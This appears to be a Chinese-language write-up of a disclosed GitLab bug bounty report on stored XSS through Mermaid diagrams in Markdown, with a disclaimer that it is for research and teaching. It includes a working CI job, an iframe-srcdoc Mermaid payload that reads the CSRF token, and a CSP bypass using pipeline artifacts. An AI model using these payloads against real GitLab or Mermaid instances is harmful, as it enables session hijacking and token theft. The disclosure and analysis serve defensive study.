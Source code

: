 
https://gitlab.com/gitlab-org/gitlab/-/issues/332528

gitlab漏洞系列-查看Markdown文件时在Mermaid中的存储型XSS

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
saleemrashid于2021年5月提交了这个漏洞:
Gitlab的Mermaid配置允许攻击者在渲染的Markdown中注入HTML,在一定条件下会引起RCE;

## 复现步骤
1.在`Gitlab.com`创建一个仓库;

2.添加以下至`.gitlab-ci.yml`
```
---  
job:  
  script:  
  - "echo 'alert(parent.document.querySelector(\"meta[name=csrf-token]\").outerHTML)' > exploit.js"  
  artifacts:  
    paths:  
    - exploit.js  

```
3.等待管道完成并记录作业ID(此流程和github中有点类似,一般开发中都会创建ci/cd的配置文件)

4.将以下内容添加到`README中.md`，相应地更改项目名称(`saleemrashid/mermaid-exploit-7032e404`)和作业ID (1303935016)
```
\```mermaid  
%%{init: {"flowchart": {"htmlLabels": "false"}} }%%  
flowchart  
  A["<iframe srcdoc='<script src=https://gitlab.com/api/v4/projects/saleemrashid%2Fmermaid-exploit-7032e404/jobs/1303935016/artifacts/exploit.js></script>'></iframe>"]  
\```  
```

5.打开`Readme.md`(或任何渲染它的页面，包括项目概述页面)，并观察由执行exploit.js引起的包含CSRF令牌的警报(例如:`<meta name=" CSRF -token" content="XXXXXX">`)

## 深入分析此漏洞原因
当启用`flowchart.htmlLabels`,并且securityLevel不是strict模式时,Mermaid是支持HTML labels的;GitLab的配置禁用了这个功能(https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/app/assets/javascripts/behaviors/markdown/render_mermaid.js#L40-52)
```javascript
  mermaid.initialize({  
    // mermaid core options  
    mermaid: {  
      startOnLoad: false,  
    },  
    // mermaidAPI options  
    theme,  
    flowchart: {  
      useMaxWidth: true,  
      htmlLabels: false,  
    },  
    securityLevel: 'strict',  
  });  

```
但是，Mermaid也支持修改配置的指令(https://mermaid-js.github.io/mermaid/#/directives)。出于安全原因，这些指令不能覆盖某些配置选项  https://github.com/mermaid-js/mermaid/blob/8.9.2/src/defaultConfig.js#L114-L120
```
  /**  
   * This option controls which currentConfig keys are considered _secure_ and can only be changed via  
   * call to mermaidAPI.initialize. Calls to mermaidAPI.reinitialize cannot make changes to  
   * the `secure` keys in the current currentConfig. This prevents malicious graph directives from  
   * overriding a site's default security.  
   */  
  secure: ['secure', 'securityLevel', 'startOnLoad', 'maxTextSize'],  
```
虽然不能重写securityLevel，但结果是重写flowchart.htmlLabels为“false”(特别是字符串，而不是布尔值)足以绕过sanitization `https://github.com/mermaid-js/mermaid/blob/8.9.2/src/diagrams/common/common.js#L34-L54`
```javascript
  let htmlLabels = true;  
  if (  
    config.flowchart &&  
    (config.flowchart.htmlLabels === false || config.flowchart.htmlLabels === 'false')  
  ) {  
    htmlLabels = false;  
  }

  if (htmlLabels) { //aabb 
    const level = config.securityLevel;

    if (level === 'antiscript') {  
      txt = removeScript(txt);  
    } else if (level !== 'loose') {  
      // eslint-disable-line  
      txt = breakToPlaceholder(txt);  
      txt = txt.replace(/</g, '&lt;').replace(/>/g, '&gt;');  
      txt = txt.replace(/=/g, '&equals;');  
      txt = placeholderToBreak(txt);  
    }  
  }  
```
很显然,如果flowchart.htmlLabels被设置为false或者`"false"`,那么上面的代码将不会过滤标签(就是不走aabb处里面if中代码);
实际决定是将其呈现为HTML还是文本的代码总是使用if (`config.flowchart.htmlLabels`)，这对于字符串`“false”`将会成功(因为它是true)。这意味着绕过了sanitization，但字符串仍然呈现为HTML，从而导致XSS。(这里主要解释上面复现步骤中第四步)

为了利用此XSS，我们还需要绕过CSP:
```
script-src 'self' 'unsafe-inline' 'unsafe-eval' https://assets.gitlab-static.net https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/ https://www.recaptcha.net/ https://apis.google.com 'nonce-<nonce>' 
```
我们可以利用这样一个事实，即Workhorse将使用基于文件扩展名`https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/workhorse/internal/artifacts/entry.go#L98-101`的自动检测Content-Type来提供管道构件
```go
	// Write http headers about the file  
	headers.Set("Content-Length", contentLength)  
	headers.Set("Content-Type", detectFileContentType(fileName))  
	headers.Set("Content-Disposition", "attachment; filename=\""+escapeQuotes(basename)+"\"")  

```
虽然Content-Disposition头可以防止将其用于基于HTML/ svg的XSS，但它仍然允许将管道构件用作脚本或样式表;

RCE可以通过使用XSS注入以下HTML，并将管道构件作为JavaScript执行来实现(使用`<iframe srcdoc>`，因为你不能直接使用innerHTML注入`<script>`标签)。这个例子引用了私有存储库上的artifacts，但是你可以为实际的exploit启用公共管道(或向URL添加访问令牌)，以便任何用户都可以访问该artifacts。
```html
<iframe srcdoc='<script src=https://gitlab.com/api/v4/projects/saleemrashid%2Fmermaid-exploit-7032e404/jobs/1303935016/artifacts/exploit.js></script> 
```

此漏洞获得3000美刀